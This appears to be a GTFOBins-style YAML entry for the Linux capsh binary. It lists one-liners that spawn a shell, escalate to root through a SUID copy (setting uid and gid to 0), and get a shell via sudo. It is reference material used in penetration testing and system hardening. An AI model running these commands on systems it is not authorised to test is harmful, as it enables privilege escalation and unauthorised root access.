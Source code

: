 ```yaml
---
functions:
  shell:
    - code: capsh --
  suid:
    - code: ./capsh --gid=0 --uid=0 --
  sudo:
    - code: sudo capsh --
---
```

